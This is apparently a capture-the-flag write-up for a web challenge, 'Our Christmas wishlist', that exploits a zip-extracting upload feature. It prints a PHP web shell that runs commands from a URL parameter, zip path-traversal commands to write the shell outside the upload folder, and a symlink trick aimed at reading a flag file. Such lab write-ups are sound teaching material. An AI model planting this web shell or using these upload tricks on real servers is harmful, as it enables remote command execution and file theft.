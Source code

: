 # Our Christmas wishlist (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

![alt text](1.png "Chall")

This is another file upload challenge where we can upload files.

![alt text](2.png "Chall")


* There are no limits on the extension. Any extension is OK.
* PHP execution is turned off in the folder
* .htaccess files are also disabled

Hmmm if we can't upload a php file, we can't get shell. Simple as that.

Playing around with it, I noticed in the challenge description that you can upload zip files.

![alt text](3.png "Chall")

Cool it extracted the files. This is unusual behavior. How can we exploit this?

Create a `shell.php` with a backdoor system command in it. The file also has to be 2000 bytes or else the upload refused to unzip the file. We pad with random numbers to get the exact filesize.

```
<?php
system($_GET["cmd"]);
?>
12341234123012304230412043012034012302341234213412341234123423423232344
12341231231112312321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
```

What if we upload a relative file.

* `$ zip payload.zip ../shell2.php`

We can now access the file at /uploads/shell.php instead of /uploads/random_hash/shell.php.

The file still only downloads which means the server never executes the php code, just sends the file back to the user.

I tried to upload a file to the root directory:

* `$ zip payload.zip ../../shell2.php`

And got an error message. We probably do not have permission to write there.

Hmm back to the drawing board. I also tried to upload symbolic links, but that didn't work either.
```bash
$ ln -s ../../flag.txt test.txt
$ zip --symlinks symbolic.zip test.txt
```

The output was just `../../flag.txt`.

Back to the first plan.

Looking back at the source I noticed the images are placed inside the img folder.

![alt text](4.png "Chall")

Maybe we can write to that directory.

![alt text](5.png "Chall")

Exploit script available here: [win.sh](win.sh)

